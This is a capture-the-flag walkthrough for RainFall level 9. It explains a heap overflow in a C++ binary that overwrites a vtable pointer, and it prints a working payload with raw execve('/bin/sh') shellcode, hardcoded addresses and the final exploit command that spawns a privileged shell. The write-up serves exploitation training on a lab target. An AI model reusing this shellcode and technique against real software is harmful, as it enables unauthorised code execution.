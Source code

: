 # RainFall Walkthrough — Level 9 → Level 10

## Step 1 — Program Structure

The binary is a **C++ program** using classes and vtables. Let’s reconstruct the logic of `main`:

```cpp
int main(int argc, char **argv) {
    if (argc < 2)
        _exit(1);

    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(argv[1]);
    (b->vtable->operator_plus)(b, a);
}
```

Key points:

* `N` has a **vtable pointer** at offset `0x0`.
* `setAnnotation(argv[1])` copies input into an internal buffer with **no bounds check**.
* At the end, `b->operator+(a)` is called **via the vtable**.

👉 If we overwrite `b`’s vtable pointer, we control the function call.

---

## Step 2 — Vulnerable Function

```cpp
void N::setAnnotation(char *str) {
    size_t len = strlen(str);
    memcpy(this + 4, str, len);
}
```

* Writes user input into the buffer at offset `+4`.
* **No length check** → overflow into adjacent memory.
* Eventually, we can overwrite the **vtable pointer at offset 0x0**.

That’s the vulnerability.

---

## Step 3 — Virtual Call Mechanics

At the end of `main`, the code does:

```asm
mov eax, [esp+0x10]   ; eax = b
mov eax, [eax]        ; eax = b->vtable
mov edx, [eax]        ; edx = b->vtable[0]
call edx              ; calls operator+
```

Normally → calls `N::operator+`.
If we corrupt `b->vtable`, it will call **any address we control**.

---

## Step 4 — Exploit Strategy

1. Create object `a` and `b`.
2. Use `a->setAnnotation(argv[1])` to overflow into `b`.
3. Overwrite `b->vtable` with a pointer inside our buffer.
4. Place a fake vtable and shellcode there.
5. When `b->operator+(a)` is called → it jumps to our shellcode.

---

## Step 5 — Finding the Offset

Using a cyclic pattern, crash analysis showed:

```
eax = 0x41366441
```

This corresponds to **offset 108**.

So: after 108 bytes, we reach and overwrite the vtable pointer.

---

## Step 6 — Crafting the Payload

Memory layout we want:

```
[ fake vtable entry ] → shellcode address
[ shellcode ]         → execve("/bin/sh")
[ padding ]
[ overwrite vtable ]  → pointer to fake vtable
```

Example payload:

```python
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

At runtime:

* `b->vtable = 0x804a00c` (points into our buffer).
* `b->vtable[0] = 0x804a010` (points at our shellcode).
* Program executes `call edx` → jumps into shellcode. ✅

---

## Step 7 — Why Use Shellcode

* Earlier levels relied on GOT overwrites.
* Here, vtable corruption is simpler.
* **NX is disabled**, so injected shellcode runs.
* `system()` isn’t directly available → shellcode is the clean solution.

---

## Step 8 — Memory Visualization

### Before Overflow

```
b->vtable → [0x08048848] → legit N::operator+()
```

### After Overflow

```
b->vtable → [0x0804a00c] → [0x0804a010] → SHELLCODE!
```

So the virtual function call ends up running our shellcode.

---

## Final Step — Success

Exploit command:

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + SHELLCODE + "A"*76 + "\x0c\xa0\x04\x08"')
```

This spawns a shell as **level10**.

